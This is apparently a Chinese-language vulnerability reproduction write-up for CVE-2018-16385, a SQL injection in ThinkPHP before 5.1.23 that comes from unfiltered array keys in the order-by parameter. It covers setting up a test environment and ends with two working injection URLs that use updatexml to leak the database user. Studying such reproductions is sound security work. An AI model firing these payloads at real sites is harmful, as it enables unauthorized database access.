 # CVE-2018-16385 Thinkphp 5.1.x SQL注入

### 一、漏洞简介

在ThinkPHP5.1.23之前的版本中存在SQL注入漏洞，该漏洞是由于程序在处理order by 后的参数时，未正确过滤处理数组的key值所造成。如果该参数用户可控，且当传递的数据为数组时，会导致漏洞的产生。

### 二、漏洞影响

ThinkPHP < 5.1.23

### 三、复现过程

环境搭建

1.下载安装thinkphp5.1.x

对于thinkphp5.1.x完整版，目前官方没有直接下载的链接。Github上只是放出核心版。该版本需要以Composer或Git方式进行安装。

这里以Composer安装方式说明。

在 Linux 和 Mac OS X 中可以运行如下命令：


```bash
curl -sS https://getcomposer.org/installer | php

mv composer.phar/usr/local/bin/composer
```

在 Windows 中，你需要下载并运行 Composer-Setup.exe 。

安装好之后，切换路径到WEB目录下运行：


```bash
composercreate-project topthink/think=5.1.1 tp5.1 --prefer-dist
```

然后会生成一个名为tp5.1的文件夹。到此think5.1.1下载成功。

2.然后在浏览器中访问

![](images/15893484811632.png)


image.png如果出现该页面，则证明安装成功。

3.Demo示例

![](images/15893484868097.png)


编写Demo文件，并将文件命名为Test.php，然后放在/tp5.1/application/index/controller/目录下。

4.数据库

与Demo文件匹配，需要创建一个user表，然后设一个字段(id)。

![](images/15893484952835.png)


**Payload构造**

根据以上分析，构造payload需要满足以下条件：

1.传入的$order需要是一个数组。

2.$val 必须也是数组。

3.至少知道数据库表中的一个字段名称，并且传入两个参数。

4.闭合 ` 。

最终Payload构造如下：


```
http://url/tp5.1/public/index/test/index?order[id`,111)|updatexml(1,concat(0x3a,user()),1)%23][]=1
```

或


```
http://url/tp5.1/public/index/test/index?order[id`,'aaa')| updatexml(1,concat(0x3a,user()),1)%23][]=1
```